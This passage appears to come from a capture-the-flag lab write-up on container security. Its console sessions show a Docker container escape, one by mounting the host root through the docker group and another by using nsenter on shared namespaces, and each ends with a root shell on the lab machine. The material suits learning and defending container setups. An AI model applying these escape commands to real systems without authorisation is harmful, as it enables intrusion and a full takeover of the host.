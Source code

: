 ## TASK 8 : Vulnerability #4: RCE via Exposed Docker Daemon
### I've executed some Docker commands remotely on the vulnerable Instance 
No Answer.

## TASK 9 : Vulnerability #5: Escape via Exposed Docker Daemon
### Escape Successful
Connect to ssh : 

```console
root@ip-10-10-127-124:~/docdoc# ssh danny@10.10.119.94 -p 2233
danny@10.10.119.94's password: 
Last login: Sat Apr 23 13:43:43 2022 from 10.10.127.124
danny@3d8fe1db6635:~$cd /var/run
danny@3d8fe1db6635:/var/run$ ^C
danny@3d8fe1db6635:/var/run$ ls -la | grep sock
srw-rw---- 1 root docker    0 Apr 23 09:21 docker.sock
danny@3d8fe1db6635:/var/run$ group
-bash: group: command not found
danny@3d8fe1db6635:/var/run$ groups
danny docker
danny@3d8fe1db6635:/var/run$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root
```
{: .nolineno }

No Answer.

## TASK 10 : Vulnerability #6: Shared Namespaces
### What is the non-existent parent process for winlogon.exe? 
Using the exploit :

```console
root@63b932f4d7d2:~# ls
root@63b932f4d7d2:~# cd /home
root@63b932f4d7d2:/home# $l
root@63b932f4d7d2:/home# ls
danny
root@63b932f4d7d2:/home# nsenter --target 1 --mount sh
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
bin   cdrom  etc   initrd.img	   lib	  lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz
# cd /home
# ls
cmnatic
# 
```
{: .nolineno }
